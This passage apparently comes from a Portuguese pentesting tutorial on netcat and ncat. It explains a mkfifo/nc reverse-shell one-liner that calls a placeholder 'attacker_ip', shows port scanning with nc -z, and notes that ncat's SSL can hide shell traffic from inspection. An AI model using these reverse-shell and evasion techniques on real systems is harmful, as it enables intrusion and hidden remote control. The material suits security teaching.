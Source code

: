 - `mkfifo /tmp/f`: A vítima irá criar um arquivo *FIFO* (named pipe, uma forma de comunicação interprocessos), em `/tmp/f`, para recebimento dos comandos do atacante e envio dos outputs.
- `cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f`: Essa segunda parte irá esperar e ler os comandos recebidos no named pipe (através do `cat`), passá-los para o processamento da shell `/bin/sh` e redirecionar a saída de erro para a saída padrão com `2>&1` (para que os erros também sejam enviados ao atacante). Por fim, o trecho  `nc attacker_ip 8080 >/tmp/f` irá fazer o papel de ponte entre o atacante e a vítima, obtendo os comandos e enviando as saídas.

Exemplo de resultado da execução:

Vítima:
![10accdb40d8fe972587d28e2d98425d3.png](../img/pentest-0x00/25b06b26c705447c884120c67c80d9ab.png)

Servidor C2:
![9997a10033b7c790e4ba863120dafb1d.png](../img/pentest-0x00/664eaf0b0d974db5a876c4e68f41ee27.png)

### Exemplo 9 - Modo scan
A fim de detectar serviços em um host, podemos utilizar o argumento `-z` passando o ip do host a ser escaneado e uma porta ou range de portas.

```sh
nc -vz ip_host range_ports
```

Onde `range_ports` pode ser uma única porta ou um intervalo fechado no formato `porta_min-porta_max`.

Um exemplo da saída desse comando:

![c3fecd7148edcbe25957bbf88b6726e0.png](../img/pentest-0x00/b6c86b24db5446059fec66034a4a9d1e.png)

Nessa saída, podemos ver que do range de portas 75 a 85 do host, apenas a porta 80 estava aberta.

## ncat
O ncat é a versão do netcat com suporte ao SSL/TLS. Essa vantagem permite a enumeração de alvos que utilizem esses protocolos, como o HTTPS, e ofuscação de comandos enviados para o destino em uma *shell* caso o alvo não realize inspeção TLS.

> Para instalá-lo em versões atuais do Ubuntu, use `sudo apt update -y && sudo apt install ncat -y`

Por exemplo, se quisermos acessar o host `google.com` na porta 443 usando o `nc`, ao enviarmos qualquer requisição, a conexão é fechada:

![38d4b2a524e98b61143ed0703a973188.png](../img/pentest-0x00/7cffbd653f5b42c7940d7317611f94fb.png)

Já quando usamos o `ncat`, com o argumento `--ssl`, podemos digitar nossa requisição sem erros:

![8aaded7468f8d84b37275091000c6af3.png](../img/pentest-0x00/556d19ebe22e40509048f915fb55b206.png)

Importante notar que a maioria (senão todos) os comandos do netcat são válidos no `ncat`.

Logo, podemos criar um servidor que utiliza SSL e realizar um procedimento de shell reversa com uma vítima. Em cenários em que não há inspeção de tráfego SSL/TLS, esse é um método que pode mascarar os comandos que estão sendo enviados, pois eles estarão sendo enviados criptografados.
